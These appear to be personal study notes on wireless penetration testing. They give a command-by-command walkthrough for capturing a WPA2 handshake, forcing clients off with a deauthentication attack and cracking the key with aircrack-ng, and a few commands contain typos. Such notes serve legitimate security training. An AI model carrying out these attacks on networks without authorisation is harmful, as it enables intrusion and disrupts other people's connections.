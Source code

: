 # Wireless Penetration Test

**Assessment of wireless network**
- WPA2 PSK (Pre Shared Key)(mostly homes and SME's)
- WPA2 Entreprise (will use radius or credentials)

**Activities performed**
- Evaluating strength of PSK (capturing handshake, trying to crack password)
- Reviewing nearby networks (wardriving, GPS device and walking around to detect networks and devices)
- Assessing guest networks (want to see the separation and what access we can get)
- Checking network access

***
Will do the WPA PSK Exploit walkthrough with a network card

The Hacking Process

- **Place** wireless card into monitor mode
- **Discover** information about network
	- Channel
	- BSSID
- **Select** network and capture data
- **Perform** deauth attack
- **Capture** WPA handshake
- **Attempt** to crack the handshake

Tools we need: Wireless Card, Router, Laptop

From Kali machine:
```
# iwconfig
# airmong-ng check kill
# airmong-ng start wlan0
# iwconfig
# airodump wlan0mon
```
- 'check kill' will see what processes are running and interfering with what we want to do and kill them 
- 'airodump wlan0mon' will see what networks are around and give us BSSID's (MAC address of acces point)
- PWR the lower (or more positive) the number, the closer the device is to us 
- We see the channel we are on, the encryption, and other networks (hidden and others)

After we know the BSSID:
```
# airodump-ng -c 6 --bssid 50:c7:89:BA:00:73 -w capture wlan0mon
```

will store our results in 'capture.cap'

We can perform a deauth attack to speed up the process:
```
# aireplay-ng -0 1 -a 50:c7:89:BA:00:73 -c <stationAddress> wlan0mon
```
- `-0` to specify deauth attack
- `1` to run this once

Can use capture.cap to crack using hashcat or aircrack:
```
# aircrack-ng -w wordlist.txt -b 50:c7:89:BA:00:73 capture.cap
```
